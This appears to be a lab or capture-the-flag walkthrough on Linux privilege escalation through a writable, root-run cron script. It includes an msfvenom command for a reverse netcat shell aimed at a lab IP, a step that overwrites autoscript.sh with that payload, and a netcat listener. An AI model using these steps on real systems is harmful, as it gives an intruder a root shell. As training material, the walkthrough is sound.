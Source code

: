 # Exploiting Crontab
## What is Cron?
The Cron daemon is a long-running process that executes commands at specific dates and times. You can use this to schedule activities, either as one-time events or as recurring tasks. You can create a crontab file containing commands and instructions for the Cron daemon to execute.

## How to view what Cronjobs are active.
We can use the command ```cat /etc/crontab``` to view what cron jobs are scheduled. This is something you should always check manually whenever you get a chance, especially if LinEnum, or a similar script, doesn't find anything.

## Format of a Cronjob
Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

```
# = ID
m = Minute
h = Hour
dom = Day of the month
mon = Month
dow = Day of the week
user = What user the command will run as
command = What command should be run
```
For Example,
```
#  m   h dom mon dow user  command
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```

## How can we exploit this?
We know from our LinEnum scan, that the file autoscript.sh, on user4's Desktop is scheduled to run every five minutes. It is owned by root, meaning that it will run with root privileges, despite the fact that we can write to this file. The task then is to create a command that will return a shell and paste it in this file.
When the file runs again in five minutes the shell will be running as root.

- Use "su" to swap to user4, with the password "password"
- Create a payload using below command on host machine.
```sh
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.224.221 lport=4444 R
```
- Lets replace the contents of the file (ran through cron) with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"
- Listen for connection on the host machine using below command and wait for the shell.
```sh
nc -lvnp 4444
```
